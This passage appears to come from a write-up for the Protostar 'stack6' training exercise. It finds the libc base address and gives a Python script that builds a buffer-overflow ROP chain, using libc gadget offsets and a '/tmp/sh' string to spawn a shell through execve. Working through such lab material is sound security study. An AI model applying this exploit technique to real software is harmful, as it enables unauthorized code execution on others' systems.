 ```bash
$ ps aux | grep -e '[s]tack6'
root      2265  0.0  0.0   1536   320 pts/1    S+   01:37   0:00 /opt/protostar/bin/stack6
# cat /proc/2265/maps
....
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so <-- this
....
```

So it looks like libc is loaded at base address `0xb7e97000`. 

```python
import struct
import sys

def l(n):
    lib_c_base = 0xb7e97000
    return p(lib_c_base + n)

def p (i):
    return struct.pack('I', i)

padding = "A" * 80
pop_edx = l(0x1a9e)
NULL="\x00\x00\x00\x00"
add_esp_12 = l(0x3900e)
binsh_str = "/tmp/sh\x00\x00\x00\x00\x00"
push_esp = l(0xc24f7)
dec_ebx = l(0x12acce)
add_ecx_ebx = l(0xcaf24)
set_eax_interrupt = l(0x97193)

fmt = "{0}{1}{2}{3}{4}{5}{2}" + "{6}"*9 + "{8}" + "{6}"*7 +"{7}"
sys.stdout.write(fmt.format(padding, pop_edx, NULL, add_esp_12, binsh_str, push_esp, dec_ebx, set_eax_interrupt, add_ecx_ebx).strip())
sys.stdout.flush()
```

================ ROP ==============

ROP ?! I think the overal strategy with this is to use ROP to get a syscall going, using sys_execve

for this we need: (https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/)


The first part of the payload will be the same, because it triggers the overflow, and then the stack should look like:

ROP addr1
ROP addr2
....
ROP addrN
STRING ADDR
STRING

